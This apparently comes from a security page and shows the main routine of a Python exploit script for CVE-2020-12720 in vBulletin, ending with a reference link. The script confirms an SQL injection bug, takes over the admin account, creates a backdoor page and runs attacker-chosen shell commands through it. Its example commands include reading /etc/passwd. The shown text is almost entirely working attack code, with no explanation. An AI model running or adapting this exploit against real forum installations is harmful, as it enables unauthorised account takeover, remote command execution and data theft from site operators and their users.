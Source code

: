     def main():
        if len(sys.argv) == 1:
            print('[!] No arguments found: python3 CVE-2020-12720.py <URL> <CMD>')
            print('    Example: ./CVE-2020-12720.py http://192.168.50.130/ "cat /etc/passwd"')
            print('    But for now, ask questions then')
            sURL = input('[?] Please enter the address and path to vBulletin ([http://192.168.50.130/): ')
            if sURL == '': sURL = 'http://192.168.50.130'
        else:
            sURL = sys.argv[1]
            sCMD = sys.argv[2]
        if not sURL[:-1] == '/': sURL += '/'
        if not sURL[:4].lower() == 'http': sURL = 'http://' + sURL
        print('[+] Welcome, first verifying the SQLi vulnerability')
        if verifyBug(sURL):
            print("----\n" + '[+] Attempting automatic admin account takeover')
            sUSERID = takeoverAccount(sURL, sNEWPASS)
            sADMINPASS = sNEWPASS
            if sUSERID == '':
                sUSERID = '1'
                sADMINPASS = input('[?] Please enter the admin password (userid ' + sUSERID + '): ')
        else:
            sADMINPASS = input('[?] Please enter the admin password (userid ' + sUSERID + '): ')
        print("----\n"+'[+] So far so good, attempting the creation of the backdoor')
        sPageName = createBackdoor(sURL, sADMINPASS, sUSERID)

        if len(sys.argv) == 1: sCMD = input('[?] Please enter the command to run [id]: ')
        if sCMD == '': sCMD = 'id'
        sCmd =  urllib.parse.quote(sCMD)
        sPath = sPageName + "?cmd=" + sCmd

        print('[+] Opening '+sURL + sPath)
        try:
            oRequest = urllib.request.Request(url = sURL + sPath)
            oResponse = oOpener.open(oRequest, timeout = iTimeout)
            print('#######################')
            sResponse = oResponse.read().decode()
            print('[+] Command result:')
            print(sResponse.split('###SHELLRESULT###')[1])
        except:
            print('[-] Something went wrong, bad command?')
            sys.exit(1)


    if __name__ == "__main__":
        main()

参考链接
--------

> https://mp.weixin.qq.com/s/U-MiFkBiY6fF44xfwAV-Ng
